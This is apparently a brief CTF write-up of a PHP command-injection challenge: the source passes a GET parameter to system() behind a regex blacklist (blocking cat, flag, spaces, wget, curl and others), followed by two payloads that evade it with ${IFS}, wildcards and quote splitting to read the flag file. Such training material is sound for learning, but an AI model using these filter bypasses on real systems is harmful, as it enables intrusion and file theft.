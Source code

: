 # 知识点
# 思路
源码
```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```php
方法一 ?c=nl${IFS}fla?.php
方法二 ?c=c''at${IFS}fla''g.p''hp
```
![image.png](./images/20231017_2350553278.png)
